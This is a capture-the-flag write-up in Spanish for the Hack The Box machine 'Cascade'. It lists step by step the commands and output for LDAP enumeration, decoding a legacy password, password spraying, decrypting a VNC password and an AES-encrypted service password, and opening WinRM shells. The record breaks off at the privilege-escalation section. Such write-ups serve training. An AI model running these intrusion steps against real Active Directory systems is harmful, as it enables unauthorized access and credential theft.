




# Resolución maquina Cascade

**Autor:** PepeMaquina.
**Fecha:** 24 de Marzo de 2026.
**Dificultad:** Medium.
**Sistema Operativo:** Windows.
**Tags:** Ldap, Decrypt, Reversing.

---
## Imagen de la Máquina

*Imagen: Cascade.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
En esta ocasión se se realizo la enumeración con nmap pero no se logro encontrar todos los puertos, asi que con rustscan se logro encontrar mas.
~~~bash
rustscan -a 10.129.8.2 --ulimit 5000 -- -A -sS -Pn -oN rustscan_initial.txt
Open 10.129.8.2:53
Open 10.129.8.2:88
Open 10.129.8.2:135
Open 10.129.8.2:139
Open 10.129.8.2:389
Open 10.129.8.2:445
Open 10.129.8.2:636
Open 10.129.8.2:3268
Open 10.129.8.2:3269
Open 10.129.8.2:5985
Open 10.129.8.2:49154
Open 10.129.8.2:49155
Open 10.129.8.2:49157
Open 10.129.8.2:49158
~~~
### Enumeración de Servicios

~~~bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-24 18:37:57Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
~~~
### Enumeracion de nombre del dominio
En este apartado, se realizó la enumeración del nombre de dominio y host con la herramienta netexec y credenciales nulas y/o guest.
~~~ bash
┌──(kali㉿kali)-[~/htb/cascade/nmap]
└─$ sudo netexec smb 10.129.8.2 -u '' -p ''                                                     
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\:
~~~
Con ello ya guardamos la ip y el dominio con su respectivo host
~~~ bash
cat /etc/hosts
127.0.0.1       localhost
<SNIP>
10.129.8.2 CASC-DC1 CASC-DC1.cascade.local cascade.local
~~~
### Enumeracion detallada de los servicios 
En esta ocacion no se presento ninguna credencial valida, por lo que se realizara una enumeracion exhaustiva con credenciales tanto nulas como guest.
Primero realizando una enumeracion con credenciales nulas no da resultado alguno.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/nmap]
└─$ sudo netexec smb 10.129.8.2 -u '' -p '' --shares
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\: 
SMB         10.129.8.2      445    CASC-DC1         [-] Error enumerating shares: STATUS_ACCESS_DENIED
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/cascade/nmap]
└─$ sudo netexec smb 10.129.8.2 -u 'as' -p '' --shares
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.8.2      445    CASC-DC1         [-] cascade.local\as: STATUS_LOGON_FAILURE 
~~~
A primera vista puede saltar a la vista un posible ataque `eternalBlue`, pero como `smb1` se encuentra deshabilitado no seria posible realizarlo.

Al realizar mas enumeración, se logro encontrar usuarios con el servicio LDAP.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/nmap]
└─$ sudo netexec ldap 10.129.8.2 -u '' -p '' --users
LDAP        10.129.8.2      389    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
LDAP        10.129.8.2      389    CASC-DC1         [+] cascade.local\: 
LDAP        10.129.8.2      389    CASC-DC1         [*] Enumerated 15 domain users: cascade.local
LDAP        10.129.8.2      389    CASC-DC1         -Username-                    -Last PW Set-       -BadPW-  -Description-                                
LDAP        10.129.8.2      389    CASC-DC1         CascGuest                     <never>             0        Built-in account for guest access to the computer/domain                                                                                                                                                 
LDAP        10.129.8.2      389    CASC-DC1         arksvc                        2020-01-09 11:18:20 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         s.smith                       2020-01-28 14:58:05 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         r.thompson                    2020-01-09 14:31:26 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         util                          2020-01-12 21:07:11 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         j.wakefield                   2020-01-09 15:34:44 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         s.hickson                     2020-01-12 20:24:27 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         j.goodhand                    2020-01-12 20:40:26 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         a.turnbull                    2020-01-12 20:43:13 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         e.crowe                       2020-01-12 22:45:02 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         b.hanson                      2020-01-13 11:35:39 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         d.burman                      2020-01-13 11:36:12 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         BackupSvc                     2020-01-13 11:37:03 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         j.allen                       2020-01-13 12:23:59 0                                                     
LDAP        10.129.8.2      389    CASC-DC1         i.croft                       2020-01-15 16:46:21 0   
~~~
Pero no se tiene mas credenciales, asi que se siguio enumerando el servicio LDAP filtrando por palabras clave como `password, pass, pwd`.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ ldapsearch -x -H ldap://10.129.8.2 -D '' -w '' -b "DC=cascade,DC=local" | grep -i "pwd"  
maxPwdAge: -9223372036854775808
minPwdAge: 0
minPwdLength: 5
pwdProperties: 0
pwdHistoryLength: 0
badPwdCount: 0
pwdLastSet: 0
maxPwdAge: -37108517437440
minPwdAge: 0
minPwdLength: 0
pwdProperties: 0
pwdLastSet: 132230718862636251
cascadeLegacyPwd: clk0bjVldmE=
badPwdCount: 14
pwdLastSet: 132233548311955855
<---SNIP--->
~~~
Se logro encontrar un modulo con una muy posible contraseña `clk0bjVldmE=`.
Se probo directamente la contraseña pero no se encontro nada, asi que se lo decifro en base64.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
~~~
Se hizo un password spray y se logro encontrar una credencial valida:
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ sudo netexec smb 10.129.8.2 -u users -p pass --continue-on-success
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)                                                               
<----SNIP---->
SMB         10.129.8.2      445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.129.8.2      445    CASC-DC1         [-] cascade.local\util:rY4n5eva STATUS_LOGON_FAILURE 
<----SNIP---->
~~~
Con las credenciales validas se procedio a enumerar recursos compartidos SMB.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ sudo netexec smb 10.129.8.2 -u 'r.thompson' -p 'rY4n5eva' --shares             
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)                                                                                                                                                   
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.129.8.2      445    CASC-DC1         [*] Enumerated shares
SMB         10.129.8.2      445    CASC-DC1         Share           Permissions     Remark
SMB         10.129.8.2      445    CASC-DC1         -----           -----------     ------
SMB         10.129.8.2      445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.129.8.2      445    CASC-DC1         Audit$                          
SMB         10.129.8.2      445    CASC-DC1         C$                              Default share
SMB         10.129.8.2      445    CASC-DC1         Data            READ            
SMB         10.129.8.2      445    CASC-DC1         IPC$                            Remote IPC
SMB         10.129.8.2      445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.129.8.2      445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.129.8.2      445    CASC-DC1         SYSVOL          READ            Logon server share
~~~
Se tiene un recurso `Data` al que se tiene acceso de lectura, asi que se procede a ver el contenido.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ smbclient '//10.129.8.2/Data' -U 'r.thompson'            
Password for [WORKGROUP\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                6553343 blocks of size 4096. 1626607 blocks available
~~~
Se realizo una enumeracion detallada pero el unico directorio con contenido es `IT`, asi que se lo procede a enumerar y descargar su contenido.
~~~bash
smb: \IT\> ls
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020
smb: \IT\> cd "Email Archives"
smb: \ITEmail Archives\> ls
  .                                   D        0  Tue Jan 28 13:00:30 2020
  ..                                  D        0  Tue Jan 28 13:00:30 2020
  Meeting_Notes_June_2018.html       An     2522  Tue Jan 28 13:00:12 2020
smb: \IT\Logs\> ls
  .                                   D        0  Tue Jan 28 19:53:04 2020
  ..                                  D        0  Tue Jan 28 19:53:04 2020
  Ark AD Recycle Bin                  D        0  Fri Jan 10 11:33:45 2020
  DCs                                 D        0  Tue Jan 28 19:56:00 2020
smb: \IT\Logs\Ark AD Recycle Bin\> ls
  .                                   D        0  Fri Jan 10 11:33:45 2020
  ..                                  D        0  Fri Jan 10 11:33:45 2020
  ArkAdRecycleBin.log                 A     1303  Tue Jan 28 20:19:11 2020
smb: \IT\Logs\DCs\> ls
  .                                   D        0  Tue Jan 28 19:56:00 2020
  ..                                  D        0  Tue Jan 28 19:56:00 2020
  dcdiag.log                          A     5967  Fri Jan 10 11:17:30 2020
smb: \IT\Temp\s.smith\> ls
  .                                   D        0  Tue Jan 28 15:00:01 2020
  ..                                  D        0  Tue Jan 28 15:00:01 2020
  VNC Install.reg                     A     2680  Tue Jan 28 14:27:44 2020
~~~
Se procedio a descargar todo el contenido.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ ls
 ArkAdRecycleBin.log   dcdiag.log   Meeting_Notes_June_2018.html   RunAudit.bat  'VNC Install.reg'
~~~
Al revisar todo los contenidos se puede ver que el archivo "Meeting_Notes_June_2018.html" contiene informacion util para mas adelante.

Esto indica que existe un usuario eliminado que contiene la misma contraseña de administrator, esto sera util para mas adelante y la escalada.
Tambien se logro ver los logs que menciona que el usuario `ArkSvc` es el que elimino al usuario `TempAdmin`.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ cat ArkAdRecycleBin.log 
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
~~~
Esto quiere decir que posiblemente si se tiene acceso al usuario `ArkSvc` posiblemente se pueda restaurar al usuario `TempAdmin` y recolectar su contraseña para obtener credenciales, pero por ahora nada de ello.
### VNC decrypt
Al seguir enumerando se encontro  un archivo VNC con posibles credenciales.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ cat VNC\ Install.reg   
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
<----SNIP---->
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"="
~~~
Se puede ver una contraseña en hexadecimal, pero no es un simple hexadecimal, debido a que funciona con VNC se puede exfiltrar la contraseña.
Buscando informacion en internet, se logro encontrar un repositorio que menciona la forma en la que se puede obtener la contrasela real. (https://github.com/billchaison/VNCDecrypt)
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -C 
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
~~~
La nueva contraseña es `sT333ve2`, ahora se prueba si la contraseña pertenece a algun otro usuario.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ sudo netexec smb 10.129.8.2 -u users -p pass --continue-on-success
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)                                                                                    <----SNIP----> 
SMB         10.129.8.2      445    CASC-DC1         [-] cascade.local\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.129.8.2      445    CASC-DC1         [-] cascade.local\util:sT333ve2 STATUS_LOGON_FAILURE 
<----SNIP---->
~~~
Este usuario tiene permisos winrm, asi que se ingresa en el y obtiene la user flag.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante winrm, obteniendo asi la user flag.
~~~powershell
┌──(kali㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.8.2 -u 's.smith' -p 'sT333ve2'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> ls
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..
*Evil-WinRM* PS C:\Users\s.smith> tree /f
Folder PATH listing
Volume serial number is CF98-2F06
C:.
ÃÄÄÄDesktop
³       user.txt
³       WinDirStat.lnk
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\s.smith> cd desktop
*Evil-WinRM* PS C:\Users\s.smith\desktop> type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios
Para realizar la escalada de privilegios, se tiene que recordar lo que se vio en los recursos compartidos, se tenia un directorio `audit`, y revisando los permisos de este usuario si pertenece a un grupo de auditoria, asi que se enumera.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ sudo netexec smb 10.129.8.2 -u 's.smith' -p 'sT333ve2' --shares
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)                                                                                                                                                   
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.129.8.2      445    CASC-DC1         [*] Enumerated shares
SMB         10.129.8.2      445    CASC-DC1         Share           Permissions     Remark
SMB         10.129.8.2      445    CASC-DC1         -----           -----------     ------
SMB         10.129.8.2      445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.129.8.2      445    CASC-DC1         Audit$          READ            
SMB         10.129.8.2      445    CASC-DC1         C$                              Default share
SMB         10.129.8.2      445    CASC-DC1         Data            READ            
SMB         10.129.8.2      445    CASC-DC1         IPC$                            Remote IPC
SMB         10.129.8.2      445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.129.8.2      445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.129.8.2      445    CASC-DC1         SYSVOL          READ            Logon server share 
~~~
Entrando en el recurso compartido.
~~~bash
──(kali㉿kali)-[~/htb/cascade]
└─$ smbclient '//10.129.8.2/Audit$' -U 's.smith'           
Password for [WORKGROUP\s.smith]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                6553343 blocks of size 4096. 1626446 blocks available
smb: \> cd DB
smb: \DB\> ls
  .                                   D        0  Tue Jan 28 16:40:59 2020
  ..                                  D        0  Tue Jan 28 16:40:59 2020
  Audit.db                           An    24576  Tue Jan 28 16:39:24 2020
~~~
Se logro ver archivos importantes y `jugosos`, se procede a descargar todo y primero realizar la enumeracion de la DB.
Esta es un sqlite.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ file Audit.db        
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60

┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ sqlite3 Audit.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
sqlite> select * from DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
~~~
Se puede ver una contraseña y/o credencial del usuario `ArkSvc`, parece estar en base64 pero esto no descifra nada.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ echo 'BQO5l5Kj9MdErXx6Q6AGOw==' | base64 -d                                    
������D�|zC�;
~~~

Al ver los archivos tambien se puede ver ejecutables como `CascAudit.exe` y `CascCrypto.dll`, al buscar en internet estos no parecen ser binarios publicos sino propios de la empresa.
Al revisar otro archivo `RunAudit.bat`, se ve que se empleo este binario para crear la DB.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ cat RunAudit.bat    
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db" 
~~~
Asi que la contraseña que se vio, se debio de haber generado con algun tipo de cifrado dentro del ejecutable, por ende se procede a realizar ingenieria inversa, para esto se emplean las herramientas como `DNspy` y/o `dotpeek`, todo esto en maquinas windows.
### Reversing
Antes de ello se lo revisa con `strings`
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ strings CascAudit.exe -e l
.5<C
CascAudiot.Resources
Invalid number of command line args specified. Must specify database path only
Data Source=
;Version=3;
SELECT * FROM LDAP
Uname
Domain
c4scadek3y654321
Error decrypting password: 
Error getting LDAP connection data From database: 
(&(isDeleted=TRUE)(objectclass=user))
sAMAccountName
distinguishedName
Found 
 results from LDAP query
INSERT INTO DeletedUserAudit (Name,Username,DistinguishedName) VALUES (@Name,@Username,@Dn)
@Name
<-----SNIP----->
~~~
Lo poco que se puede entender de esto es que se tiene una posible contraseña `c4scadek3y654321` (que no es contraseña) y parece que utiliza esa key para desencriptar algo, posiblemente la contraseña que se encontro en la DB. 
Ahora si se utiliza `dotpeek`, primero se abre `CascAudit.exe`.

Se puede ver que realiza consultas con LDAP, tambien que intenta desencriptar una contraseña y una posible key o contraseña.
Revisando el archivo `CascCrypto.dll`.

Se puede ver que existe una IV y que utiliza una clase "AES", por lo que se puede inferir que emplea un tipo de cifrado AES, tambien se puede ver que utiliza el modo de cifrado CBC.

Se sabe que el tipo de encriptado puede ser AES, con ello se encontro la KEY y el IV, con ello se puede desencriptar la contraseña, eso utilizando la herramienta en linea `cyberchef.io`.
Primero se lo convierte de base64 y añade los valores para AES.

Obteniendo asi obtener una contraseña en texto plano.
Probando la contraseña de este con el usuario `arksvc` se puede ver que la contraseña es efectiva.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ sudo netexec smb 10.129.8.2 -u 'arksvc' -p 'w3lc0meFr31nd'        
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)                                                                                                                                                   
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd
~~~
Este tambien tiene acceso a winrm, por lo que se entra en el.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.8.2 -u 'arksvc' -p 'w3lc0meFr31nd'               
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>
~~~
### Restore Object
Este usuario es el que borro al usuario temporal `TempAdmin`, y pertenece al grupo `Recycle Bin`.
~~~bash
